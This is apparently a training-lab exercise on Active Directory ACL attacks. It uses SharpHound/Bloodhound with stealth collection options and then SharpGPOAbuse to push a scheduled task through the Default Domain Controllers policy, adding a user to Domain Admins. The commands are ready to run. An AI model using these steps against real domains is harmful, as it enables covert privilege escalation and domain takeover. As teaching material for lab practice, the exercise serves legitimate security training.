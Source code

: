 # Exercise 7 - ACL-based attacks

## Tools

You can find all tools needed in the ["attacker-tools.zip"-file](../exercises/attacker-tools). The links below are for your own reference.

Tools needed:

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Bloodhound: [https://github.com/BloodHoundAD](https://github.com/BloodHoundAD)

## Exercise

This exercise is split in two parts. Part one covers the use of Bloodhound to collect and analyze data from Active Directory. Part two demonstrates an ACL-based attack on Group Policies.

### Part 1 - Bloodhound Exercise

First load "Sharphound", which is the data collection tool for Bloodhoud.

```
cd C:\attacker-tools
cat -raw .\SharpHound.ps1 | iex
```

Run sharphound to gather data on the domain.

```
Invoke-Bloodhound -CollectionMethod DcOnly -Stealth -PrettyJson -NoSaveCache
```

 - **-CollectionMethod DcOnly** means only collect data from the domain controller. This is preferable from an opsec-perspective since we blend in with existing traffic.
 - **-Stealth** means run single-threaded. Slower but also less noisy.
 - **-PrettyJson** means format the .json-files in a way that you can read them.
 - **-NoSaveCache** means do not save a cache file. Therefore everytime you run Sharphound it will start fresh from the beginning. Useful for demo purposes.

You shoud now see a ZIP file in your working directory called "TIMESTAMP_Bloodhound.zip". This ZIP contains the information gathered by Sharphound and can be ingested into Bloodhound. To get Bloodhound started we have to

1. Unzip "attacker-tools\BloodHound-win32-x64.zip".
2. After that, run "attacker-tools\BloodHound-win32-x64\BloodHound-win32-x64\BloodHound.exe". Log in with the user "neo4j" and the password you choose during Lab setup.
3. Ingest the ZIP file into bloodhound by just drag-and-drop it into the empty space in the center of the UI.

Thats it. Now you can start your analysis by experimenting with the "Pre-Built Analytics Queries" in the "Analysis" tab.

#### Questions

- We got control over taskservice through kerberoasting but Bloodhound also shows you a different attack path. Which other user can manipulate the user taskservice? `Hint:` we got control over that user in the NTLM exercise
- Find a way to exploit the attack path you just found and try to execute it in the lab environment.

### Part 2 - GPO Exercise

The previous exercise revealed that the user "taskservice" has write permissions on "Default Domain Controllers" group policy. We'll use this to get us domain admin rights.

First, start powershell as user "taskservice". Since we know the password by now, we can just use run-as. Then go on with the steps below in this new powershell window.

```
cd C:\attacker-tools
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author contoso\adminuser --Command "cmd.exe" --Arguments '/c net group \"Domain Admins\" john /ADD' --GPOName "Default Domain Controllers Policy" --force
```

In a real environment, we would have to wait until the GPO is reprocessed by the DC. To speed this up, run gpupdate on the DC.

```
gpupdate /force
```

Verify that it worked by checking johns group memberships (using powerview again).

```
Get-DomainUser john | select memberof
```

**Woohoo - you finally made it to Domain Admin. Now grab yourself a beverage of your choice :-)**
